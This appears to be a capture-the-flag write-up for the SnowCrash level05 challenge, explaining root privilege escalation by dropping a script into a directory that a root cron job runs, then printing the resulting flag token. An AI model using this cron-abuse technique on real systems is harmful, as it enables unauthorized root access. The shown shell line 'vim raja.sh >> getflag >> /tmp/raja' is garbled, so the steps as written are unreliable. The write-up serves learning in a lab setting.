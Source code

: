 # LEVEL 05

when we log int to the level05 a message appear for informing us that there is a message
# in linux server

there is a folder /var/spool/mail where services and daemons that are configured by default to send notifications to root account mailbox

## Vulnerability & exploit
we know that Cron Jobs are used for scheduling tasks by executing commands at specific dates and times on the server.
and the most of time commonly used for sysadmin jobs as backups or cleaning /tmp 

When a script executed by Cron is editable by unprivileged users, those unprivileged users can escalate their privilege by editing this script, and waiting for it to be executed by Cron under root privileges.


## Solving the challenge

User flag05 seems to inform us that he set up a cron job to run every 30 seconds
during the following script is run as root:

```
level05@SnowCrash:~$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```
when we see the script we can understand that the user will loop through all the files in /opt/openarenaserver and run them in a bash shell 

so it's appear that we can create a file in this directory and run it as a root using the crontab and since the script in that directory does not return or print the output of the command we will redirect the output to another file 

		level05@SnowCrash:/opt/openarenaserver$ touch raja.sh
		level05@SnowCrash:/opt/openarenaserver$ chmod 777 raja.sh 
		level05@SnowCrash:/opt/openarenaserver$ vim raja.sh >> getflag >> /tmp/raja
		level05@SnowCrash:/opt/openarenaserver$ cat /tmp/raja
		Check flag.Here is your token : viuaaale9huek52boumoomioc



